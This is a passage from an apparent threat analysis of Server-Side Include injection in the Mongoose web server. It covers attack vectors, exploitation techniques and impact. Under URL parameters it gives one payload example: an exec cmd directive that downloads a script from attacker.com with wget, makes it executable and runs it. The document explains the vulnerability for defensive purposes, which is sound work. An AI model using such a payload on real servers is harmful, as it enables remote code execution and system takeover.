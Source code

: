 *   **Misconfiguration of SSI Processing:**  If SSI is enabled unnecessarily or for file types that handle user input, the attack surface is unnecessarily broadened.  Default configurations that enable SSI without careful consideration can be a vulnerability.

#### 4.3. Attack Vectors & Exploitation Techniques

Attackers can exploit SSI injection vulnerabilities through various vectors:

*   **URL Parameters:**  The most common vector. Attackers modify URL parameters to inject malicious SSI directives into variables that are subsequently used in SSI processing.
    *   **Example:** `https://example.com/page.shtml?username=<!--#exec cmd="wget+http://attacker.com/malicious.sh+-O+/tmp/x;+chmod+777+/tmp/x;+/tmp/x" -->`

*   **Form Input:**  Similar to URL parameters, attackers can inject malicious SSI code through form fields that are processed and used in SSI directives.

*   **Cookies:** If application logic uses cookie values in SSI directives, attackers can manipulate cookies to inject malicious code.

*   **HTTP Headers:** In less common scenarios, if HTTP headers are processed and used in SSI directives, attackers could potentially inject malicious code through crafted headers.

*   **Stored XSS leading to SSI Injection:** In complex scenarios, a Stored Cross-Site Scripting (XSS) vulnerability could be leveraged to inject malicious SSI directives indirectly. For example, an attacker could inject JavaScript that modifies a variable used in an SSI directive on the server-side.

**Exploitation Techniques:**

*   **Remote Code Execution (RCE) via `exec cmd`:**  The primary goal is often RCE. Attackers inject `<!--#exec cmd="..." -->` directives to execute arbitrary shell commands. This allows them to:
    *   Gain complete control of the server.
    *   Install backdoors.
    *   Steal data.
    *   Modify website content.
    *   Launch further attacks.

*   **Data Exfiltration via `echo var` and `exec cmd`:** Attackers can use `<!--#echo var="..." -->` to display the content of server variables or environment variables. Combined with `<!--#exec cmd="..." -->` and command output redirection, they can exfiltrate sensitive data to attacker-controlled servers.

*   **Website Defacement:**  Attackers can inject SSI directives to modify the content of web pages, defacing the website and displaying malicious messages.

*   **Denial of Service (DoS) via Resource Exhaustion:**  Attackers might be able to craft SSI directives that consume excessive server resources (e.g., by executing resource-intensive commands or creating infinite loops if Mongoose's SSI processing is vulnerable to such attacks).

#### 4.4. Impact Deep Dive: Consequences of SSI Injection

The impact of successful SSI injection can be severe, ranging from minor inconveniences to catastrophic system compromise:

*   **Critical Impact: Remote Code Execution (RCE):**  As highlighted, RCE is the most critical impact. It grants the attacker complete control over the server, allowing them to perform any action a legitimate user could, and often more. This includes:
    *   **Data Breach:** Accessing and stealing sensitive data, including databases, user credentials, confidential files, and intellectual property.
    *   **System Compromise:** Installing malware, backdoors, and rootkits to maintain persistent access and control.
    *   **Infrastructure Damage:**  Modifying system configurations, disrupting services, and potentially damaging the underlying infrastructure.
    *   **Lateral Movement:** Using the compromised server as a stepping stone to attack other systems within the network.
